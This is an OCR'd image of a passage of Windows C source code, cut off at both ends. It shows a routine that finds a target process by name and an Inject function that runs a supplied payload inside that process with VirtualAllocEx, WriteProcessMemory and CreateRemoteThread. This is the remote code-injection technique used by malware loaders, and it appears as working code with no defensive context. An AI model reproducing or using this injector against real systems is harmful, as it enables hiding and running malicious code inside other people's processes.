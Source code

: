 ```c
    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;
    wchar_t procnameLower[260];
    wchar_t exeNameLower[260];


    wcsncpy_s(procnameLower, 260, procname, _TRUNCATE);
    for (size_t i = 0; procnameLower[i]; i++) {
        procnameLower[i] = towlower(procnameLower[i]);
    }

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hProcSnap, &pe32)) {
        CloseHandle(hProcSnap);
        return 0;
    }

    while (Process32Next(hProcSnap, &pe32)) {
        wcsncpy_s(exeNameLower, 260, pe32.szExeFile, _TRUNCATE);
        for (size_t i = 0; exeNameLower[i]; i++) {
            exeNameLower[i] = towlower(exeNameLower[i]);
        }

        if (wcscmp(procnameLower, exeNameLower) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
    }

    CloseHandle(hProcSnap);

    return pid;
}


int Inject(HANDLE hProc, unsigned char* payload, unsigned int payload_len) {

    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;


    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T*)NULL);

    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (hThread != NULL) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}


int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstace, LPSTR lpCmdLine, int nCmdShow) {

    int pid = 0;
```